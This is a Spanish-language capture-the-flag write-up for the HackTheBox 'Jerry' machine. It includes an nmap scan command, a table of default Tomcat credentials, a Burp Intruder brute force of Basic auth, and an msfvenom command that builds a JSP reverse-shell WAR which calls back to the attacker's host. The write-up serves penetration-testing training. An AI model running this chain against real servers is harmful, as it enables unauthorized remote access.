 # 5 - Jerry \(win\_easy\)

## **Scanning**

```text
nmap -T4 -p- -A -sS 10.10.10.4
```

![](../../.gitbook/assets/imagen%20%28552%29.png)

Tenemos un **apache tomacat default page**.

![](../../.gitbook/assets/imagen%20%28550%29.png)



### Apache Tomcat Default Credentials

| Username | Password |
| :--- | :--- |
| admin | password |
| admin |  |
| admin | Password1 |
| admin | password1 |
| admin | admin |
| admin | tomcat |
| both | tomcat |
| manager | manager |
| role1 | role1 |
| role1 | tomcat |
| role | changethis |
| root | Password1 |
| root | changethis |
| root | password |
| root | password1 |
| root | r00t |
| root | root |
| root | toor |
| tomcat | tomcat |
| tomcat | s3cret |
| tomcat | password1 |
| tomcat | password |
| tomcat |  |
| tomcat | admin |
| tomcat | changethis |

### Usando burpsuit

Lo arracamos con todo default

Vamos a proxy -&gt; opciones vemos la ip

Lo ponemos como proxy de firefox

![](../../.gitbook/assets/imagen%20%28548%29.png)

#### Enviando una default credential

Al entrar al login probamos tomcat tomcat pero antes de enviarla probamos ver donde estan esos parametros. 

![](../../.gitbook/assets/imagen%20%28554%29.png)

Bien el problema aqui es que aparece como Basic: y algo encriptado \(en la ultima linea\), para esto lo enviamos al decoder. En el decoder lo podemos cambiar a base64 y verlos en plain text

![Resultado](../../.gitbook/assets/imagen%20%28547%29.png)

No hubo suerte con el anterior.

Hacemos **gedit** con las contraseñas y usuarios por defecto, reemplazamos \(cntl h\) el espacio en el medio por un **:** ya que es el formato por defecto que vimos.

![](../../.gitbook/assets/imagen%20%28553%29.png)

Hacemos un bash script para pasar eso todo a base64

```text
for cred in $(cat tomcat.txt); do echo -n $cred | base64; done
```

Back al burpsuit, desde ahi ponemos el modo intruder en sniper. Seleccionamos el archivo en base64 y desde payloads le cargamos los hashes.

![](../../.gitbook/assets/imagen%20%28557%29.png)

Pasandole el payload llegamos al correcto, decodificandola era **tomcat:s3cret**

![](../../.gitbook/assets/imagen%20%28556%29.png)

### **Inside tomcat**

![](../../.gitbook/assets/imagen%20%28551%29.png)

Vemos que maneja los archivos WAR, podemos subir alguno, probemos uno malicioso de google.

Con msfvenom

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

Usaremos netcat para escuchar la entrada del reverse shell

![](../../.gitbook/assets/imagen%20%28549%29.png)

![](../../.gitbook/assets/imagen%20%28555%29.png)



